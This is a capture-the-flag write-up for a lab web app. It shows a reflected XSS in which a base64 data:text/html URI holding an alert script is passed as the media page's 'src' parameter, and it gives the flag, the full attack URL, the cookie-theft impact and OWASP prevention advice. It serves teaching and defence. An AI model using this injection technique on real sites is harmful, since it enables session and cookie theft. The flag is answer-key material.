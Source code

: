 # XSS MEDIAS REQUEST

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Discovery
On the page http://{IP_ADDRESS}/

The NSA image (the one with headphone) leads to http://{IP_ADDRESS}/?page=media&src=nsa \
You can change nsa to base64 script
```diff
"data:text/html;base64," + base64("<script>alert("wtf");</script>")
> data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+
```
Finaly go to : \
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+ \
**This work because the request response accept text/html**

## Use
> the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site

## Prevention
> - never insert untrusted data except in allowed locations
> - HTML escape before inserting untrusted data into HTML element content
> - attribute escape before inserting untrusted data into HTML common attributes
> - javascript escape before inserting untrusted data into javascript data values
> - CSS escape and strictly validate before inserting untrusted data into HTML style property values
> - URL escape before inserting untrusted data into HTML URL parameter values
> - sanitize HTML markup with a library designed for the job
> - avoid javascript URL's

## Documentation
- [owasp - XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- [owasp - prevent XSS breaches](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [base64](https://www.base64decode.org/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)